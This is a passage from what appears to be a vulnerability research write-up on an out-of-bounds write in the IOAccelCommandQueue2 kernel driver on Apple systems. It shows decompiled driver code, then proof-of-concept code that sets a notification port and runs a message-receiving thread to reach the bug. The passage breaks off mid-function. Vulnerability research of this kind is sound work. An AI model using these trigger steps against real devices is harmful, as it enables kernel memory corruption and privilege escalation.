 ```cpp
            pid = (unsigned int)this->pid;
            cq_id = this->cq_id;
            v10 = *(unsigned int *)&this->gap2[11];
            RegistryEntryID = IORegistryEntry::getRegistryEntryID((IORegistryEntry *)this->graphicsAccelerator2);
            j__kernel_debug_10(0x85020080, pid, cq_id, v10, RegistryEntryID, 0);
            ...
          }
          **IOAccelCommandQueue2::submit_command_buffer(
            this,
            args->command[idx].kcmd_shmem,
            args->command[idx].seglist_shmem,
            *(_QWORD *)&args->command[idx].notify_1,
            *(_QWORD *)&args->command[idx].notify_2);**
          ++idx;
        }
        while ( idx < args->count );
      }
      v18 = this->graphicsAccelerator2;
      *(_DWORD *)&v18[21].gap8[72] = this->pid;
      IOGraphicsAccelerator2::enable_gart_collector((__int64)v18);
      ret = 0;
    ...
  }
  return ret;
}
```

## 3. Triggering OOB Write

Before calling `IOAccelCommandQueue2::submit_command_buffers`, we must first call `IOAccelCommandQueue2::set_notification_port`.

Use `mach_port_allocate` to create **receive (mach receive) port** named `notification_port`, then pass that port to `set_notification_port` to register it as asynchronous notification port.

Finally, spawn a thread with `pthread_create` that continuously calls `mach_msg` so it keeps receiving notifications.

```cpp
static void
IOAccelCommandQueue2_set_notification_port(io_connect_t IOAccelCommandQueue2, mach_port_t notification_port) {
    kern_return_t kr = IOConnectCallAsyncMethod(IOAccelCommandQueue2,
            IOAccelCommandQueue2_set_notification_port_selector,
            notification_port,
            NULL, 0,
            NULL, 0,
            NULL, 0,
            NULL, NULL,
            NULL, NULL);
    assert(kr == KERN_SUCCESS);
}

...

static void *
notification_recv_func(void *arg) {
    mach_port_t notification_port = (mach_port_t)(uintptr_t)arg;
    for (;;) {
        struct {
            mach_msg_header_t hdr;
            uint8_t data[0x4000];
        } msg = {};
```